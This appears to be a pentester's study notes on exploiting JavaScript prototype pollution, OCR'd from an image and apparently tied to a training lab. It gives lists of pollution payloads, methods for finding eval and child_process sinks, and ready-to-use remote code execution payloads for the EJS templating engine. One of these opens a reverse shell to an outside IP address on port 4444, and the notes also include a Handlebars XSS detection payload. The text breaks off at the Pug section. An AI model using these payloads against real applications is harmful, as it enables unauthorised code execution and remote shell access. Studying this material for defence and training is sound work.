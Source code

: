             Check logs for errors
        Javascript Payloads:
            y = {["__proto__"] :{"toString": "foobar"}}          
            y = {["__proto__"]: { ["__proto__"]: {"toString": "bar" }}}
            y = {"__proto__" :{"toString": "foobar"}}
            y = {["constructor.prototype"] :{"toString": "foobar"}} 
            y = {["constructor.prototype"] :{["constructor.prototype"] :{"toString": "foobar"}} }             
            y = {"constructor.prototype" :{"toString": "foobar"}}            
        JSON Payloads:
            "__proto__":{"toString":"foobar"} 
            "__proto__":{"__proto__":{"toString":"foobar"}}
            "__proto__":{"__proto__":{"__proto__":{"toString":"foobar"}}}
            "constructor.prototype":{"toString":"foobar"}
            "constructor.prototype":{"constructor.prototype":{"toString":"foobar"}}
            "constructor.prototype":{"constructor.prototype":{"constructor.prototype":{"toString":"foobar"}}}
            *Also try valueOf()
            *Inject everywhere possible
            **Inject into the original request
            *Try isAdmin or similar
                ex. "__proto__":{"isAdmin":"true"} 
        Exploitation Methodology:
            Check where the vulnerable libraries are used
            LOOK FOR A PARAMETER THAT'S CHECKED/USED, BUT NOT SET BY DEFAULT - use documentation
                ex. setting isAdmin true in the Object prototype (if it's not explicitly set to False elsewhere)
            RCE:
                find a point in the application where undefined variables are appended to a child_process.exec, eval or vm.runInNewContext function, or similar
                    Look for anything that might eval code/run commands (templating engines, etc.)
                    child_process methods:  https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce
                    egrep -R 'eval|setTimeout|setInterval|' .
                    egrep -iR 'child_process|exec|execsync|spawn|spawnsync' .
                    Check packages:  npm list -prod -depth 0
                        ex. docker-compose -f ~/chips/docker-compose.yml run chips npm list -prod -depth 0
                    *Check templating engine packages and other libraries (node_modules/...)
                        Templating engines compile the template into a JS function - try to inject custom JS
                **LOOK FOR A PARAMETER THAT'S CHECKED, BUT NOT SET BY DEFAULT, AND TRY TO INJECT AND ESCAPE
                    ex. options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
                    ex. {}.__proto__.preface = "');console.log('RUNNING ANY CODE WE WANT')//"
                Common Templating Engine Exploits:
                    'Eval' may not be obvious - look for render/compile
                    Search backwards, starting from the eval/render/compile
                    EJS Templating engine:
                        TEMPLATING_ENGINE=ejs docker-compose up &
                        Detection (crashes):  "__proto__":{"escape":"foobar"}
                        Start by testing in CLI:  docker-compose -f ~/chips/docker-compose.yml exec chips node --inspect=0.0.0.0:9228
                        RCE Payload:  "__proto__":{"outputFunctionName": "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"}
                            Shell:  "__proto__":{"outputFunctionName": "x = 1; console.log(process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.119.169/4444 0>&1\"').toString()); y"}
                    Handlebars Templating Engine:
                        Restart:  docker-compose down; TEMPLATING_ENGINE=hbs docker-compose -f ~/chips/docker-compose.yml up
                        Directory:  node_modules/handlebars/dist/cjs
                            base.js->parser.js->precompile->compiler.js->javascript-compiler.js
                        Interactive CLI:   docker-compose -f ~/chips/docker-compose.yml exec chips node --inspect=0.0.0.0:9228
                        Detection (appends to new page):  "__proto__":{"pendingContent":"abcabcabcabcabc"}
                            XSS:  "__proto__":{"pendingContent":"<script>alert(123)</script>"}
                        RCE Payload:  see HandlebarRCEpayload.txt
                            Pushes content without escaping it
                    Pug Templating Engine:
                        docker-compose down; TEMPLATING_ENGINE=pug docker-compose up &